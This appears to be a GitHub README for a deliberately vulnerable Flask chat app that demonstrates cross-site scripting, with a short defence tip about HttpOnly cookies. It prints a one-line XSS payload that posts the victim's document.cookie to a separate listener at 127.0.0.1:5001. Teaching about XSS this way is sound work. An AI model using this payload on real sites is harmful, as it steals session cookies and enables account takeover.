 # **Vulnerable Chat WebApp with Flask**

Building an vulnerable chat web app with Flask, socket programming to demostrate XSS attacks.


Attacker's injection: `<script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>`

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes the cookie unavailable to scripting languages like JavaScript.

Give me a star if this has helped you in any way!
